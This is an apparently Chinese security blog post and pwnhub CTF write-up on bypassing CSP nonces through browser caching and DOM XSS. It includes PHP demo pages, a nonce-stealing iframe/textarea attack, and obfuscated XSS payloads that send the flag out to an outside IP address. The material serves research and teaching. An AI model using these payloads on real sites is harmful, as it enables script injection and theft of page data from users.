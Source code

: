 ```yaml
---
title: 通过浏览器缓存来bypass CSP script nonce
date: 2017-05-16 17:45:50
tags:
- csp
- pwnhub
---
```




原文被我发在freebuff上
[http://www.freebuf.com/articles/web/133455.html](http://www.freebuf.com/articles/web/133455.html)

最近看了去年google团队写的文章CSP Is Dead, Long Live CSP!，对csp有了新的认识，在文章中，google团队提出了nonce-{random}的csp实现方式，而事实上，在去年的圣诞节，Sebastian 演示了这种csp实现方式的攻击方式，也就是利用浏览器缓存来攻击，事实上，我很早就看到了这篇文章，但是当时并没有看懂，惭愧了，现在来详细分析下。

<!--more-->

# 漏洞分析 #


原文
[http://sirdarckcat.blogspot.jp/2016/12/how-to-bypass-csp-nonces-with-dom-xss.html](http://sirdarckcat.blogspot.jp/2016/12/how-to-bypass-csp-nonces-with-dom-xss.html)

国内的翻译（只有翻译）
[http://paper.seebug.org/166/](http://paper.seebug.org/166/)

首先我需要个demo

首先是实现了nonce script的站，然后包含了因为是利用了浏览器缓存，所以我们不能对页面发起请求，因为发起请求之后，后台就会刷新页面并刷新nonce的字符串，符合条件的只有3种。

1、持久型 DOM XSS，当攻击者可以强制将页面跳转至易受攻击的页面，并且 payload 不包括在缓存的响应中（需要提取）。

2、包含第三方 HTML 代码的 DOM XSS 漏洞（例如，fetch(location.pathName).then(r=>r.text()).then(t=>body.innerHTML=t);）

3、XSS payload 存在于 location.hash 中的 DOM XSS 漏洞（例如 https://victim/xss#!foo?payload=）

这里首先我们需要一个开启了nonce script规则的站，并加入一个xss点

```
/csp/test.php

<?php
function random_string( $length = 8 ) { 
  $chars = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789'; 
  $password = ''; 
  for($i = 0; $i < $length; $i++)
  { 
    $password .= $chars[ mt_rand(0, strlen($chars) - 1) ]; 
  } 
  return $password; 
} 

$random = random_string(12);

header('Content-Security-Policy: default-src \'none\'; script-src \'nonce-'.$random .'\';');
header('Cache-Control: max-age=99999999');

?>

<script nonce='<?php echo $random;?>'>document.write('URL ' + unescape(location.href))</script><script nonce='<?php echo $random;?>'>console.log('another nonced script')</script>

```

然后我们需要利用iframe引入这个页面，并对其发起请求获取页面内容，这里我们通过向其中注入一个`<textarea>`标签来吃掉后面的script标签，这样就可以获取内容。

```
attack.php


<iframe id="frame" src="http://127.0.0.1/ctest/csp/test.php#<form method='post' action='http://127.0.0.1/ctest/nonce_receiver.php'><input type='submit' value='test!'><textarea name='nonce'>"></iframe>

<script>
  function getNonce() { 
    var xhr = new XMLHttpRequest();
    xhr.open("GET", "nonce_receiver.php", false);
    xhr.send();
    return xhr.responseText;
  }
 
  setTimeout(pollNonce, 1000);
  function pollNonce() {
    var nonce = getNonce();

    if (nonce == "") {
      setTimeout(pollNonce, 1000);
    } else {
      attack(nonce);
    }
  }

  function attack(nonce) {
    var iframe = document.createElement("iframe");
    var url = "http://127.0.0.1/ctest/csp/test.php#"
    var payload = "<script nonce='" + nonce + "'>alert(document.domain)</scr" + "ipt>"
    var validationPayload = "<script>alert('If you see this alert, CSP is not active')</scr" + "ipt>"
    iframe.src = url + payload + validationPayload;
    document.body.appendChild(iframe);
  }

</script>
```

然后我们需要一个页面去获取nonce字符串，为了反复获得，这里需要开启session。
```
<?php
session_start();

if(!empty($_POST)){
	$message = $_POST['nonce'];
	preg_match('/(nonce=\')\w+\'/', $message, $matches);
	$nonce_number = substr($matches[0], 7, -1);
	$_SESSION['nonce'] = $nonce_number;
	echo $nonce_number;

}else if(!empty($_SESSION['nonce'])){
	echo $_SESSION['nonce'];
}
?>
```

 一切就绪了，唯一的问题就是在nonce script上，由于csp开启的问题，我们没办法自动实现自动提交，也就是攻击者必须要使按钮被点击，才能实现一次攻击。
 
 ![image_1bchpbi9rkcc1rj812s4mt1jo49.png-116.6kB][1]


# nonce绕过实例-pwnhub绝对防御 #

为了研究整个漏洞的限制性，我专门写了一个pwnhub的题目。题目环境大概是这样的。

前台是个聊天版，可以发给任何人，有简单的xss过滤，但是可以随便绕过

![image_1bei38vv318ft1nanss23vpf4e9.png-25.3kB][2]

在admin的聊天版里可以找到后台的信息，通过构造任意xss获得后台地址。

```
Wow, good guys,maybe you want /adminshigesha233e3333/#admin
```

打开看一眼发现敏感信息

![image_1bei3c425lcq9j519p24vmg1hm.png-18.6kB][3]

右键看源码是这样的

![image_1bei3dvii1ut4n0p6l3pjgbpu13.png-22.9kB][4]

存在dom xss，看看返回头还可以发现更多信息。

![image_1bei3ivl41icf9u011vj1sp7o0f1g.png-24.9kB][5]

服务端不但开启了最新版的nonce csp，而且还开启了浏览器缓存

这就让我们有了可乘之机，就如同上面提到的一样，如果我们仅修改location.hash，浏览器不会请求服务器，那么nonce string就不会更换。

那么思路就很清楚了，我们可以在主站构造xss，先开iframe请求admin目录的，获取到nonce值后，再新建一个iframe，添加带有nonce字符串的iframe窗口，执行任意xss

```
<iframe src="/adminshigesha233e3333#a"></iframe>
<scrscriptipt>
window.oonnload=setTimeout(functioonn(){
 var f=document.getElementsByTagName("iframe")[0];
 var
n=f.coonntentWindow.document.getElementsByTagName("scrscriptipt")[0].
getAttribute("noonnce");
 coonnsole.log(n);
 var f2=document.createElement("iframe");
 var u="/adminshigesha233e3333#";
 var p="<scr"+"ipt noonnce='"+n+"'
src='../static/js/jquery.min.js'></scr"+"ipt><scri"+"pt
noonnce='"+n+"'>$.get('/adminshigesha233e3333/flag.php',functioonn(da
ta){top.locatioonn.href='//x.x.x.x/?c='+escape(data)});</scr"+"ipt>";
 f2.src=u+p;
 document.body.appendChild(f2);
},1000);
</scrscriptipt>

```

但是让我回过头来总结下上面的利用条件：

1、目标站开启了缓存机制。

2、目标站同源下存在未被csp保护的存在xss的站点。

但事实上，我们本可以用更简单的方式获得目标站的flag，比如构造一个iframe引入flag.php，然后读iframe内容，在同源的情况下是允许的。

payload如下
```
<iframe src="./adminshigesha233e3333/#<iframe src='./flag.php' id=xss>" id=xss2>

<scscriptript>
functioonn x(){
 var inner =
document.getElementById("xss2").coonntentDocument.getElementById("xss").coonntentDocum
ent.body.innerHTML;
var xml = new XMLHttpRequest();
xml.open('POST', 'http://52.80.63.91/api/addmessage.php', true);
xml.setRequestHeader("Coonntent-type","applicatioonn/x-www-form-urlencoded");
xml.send('to=sss&message='+escape(inner));
};
 setTimeout("x()",2000);
 </scscriptript>
```

那么如果admin站点和xss站点非同源呢？由于同源策略的影响，你不能从父窗口获取子窗口的内容，那么就只能通过点击劫持的方式，来发送请求，payload如前面漏洞分析时讲到的。


  [1]: http://static.zybuluo.com/LoRexxar/k8qla98d1zqzmp7jd9p2hth5/image_1bchpbi9rkcc1rj812s4mt1jo49.png
  [2]: http://static.zybuluo.com/LoRexxar/h9y56mw4eqx0w16a9ju4h0i7/image_1bei38vv318ft1nanss23vpf4e9.png
  [3]: http://static.zybuluo.com/LoRexxar/x665kblc6mz1fisgs3ipczcz/image_1bei3c425lcq9j519p24vmg1hm.png
  [4]: http://static.zybuluo.com/LoRexxar/sdexy7qywxsqttqsewa8bkca/image_1bei3dvii1ut4n0p6l3pjgbpu13.png
  [5]: http://static.zybuluo.com/LoRexxar/e6uhrjtjw6ftcnbq0c3t9dd9/image_1bei3ivl41icf9u011vj1sp7o0f1g.png